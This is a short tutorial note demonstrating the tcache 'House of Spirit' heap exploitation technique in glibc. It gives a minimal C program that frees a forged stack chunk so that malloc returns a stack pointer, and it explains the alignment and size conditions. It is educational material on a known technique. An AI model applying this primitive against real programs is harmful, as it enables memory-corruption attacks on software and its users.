 # Tcache's House of Spirit
> LongChampion, 21/03/2020

Lets demostrate the House of Spirit attack with tcache.
```
#include <stdlib.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    struct Chunk Fake;
    Fake.size = 0x40;
    free(&Fake.fd);
    void *STACK = malloc(0x40 - 8);
}
```
Eventhough tcache entry doesn't contain `pre_size`, `size` or `bk` field, I recognize that tcache entry still consider as normal chunk in some circumstances. So that out `Fake` chunk must have all of there field (and there field will be used!). We set `size` of `Fake` to a value that fall into tcache_bin size then free `Fake` by passing address of `Fake.fd` to `free`. The following `malloc` will return `Fake.fd` as we expect.

## Note
Our `Fake` chunk must be aligned by 0x10 (or 0x08 in x86 system) in memory, or the attack will fail. We also don't need to create another fake chunk after the main `Fake` as we do in House of Spirit with fastbin. The last and the most interesting is that this attack still work with **GLIBC** 2.31 (and maybe newer version). AWESOME!
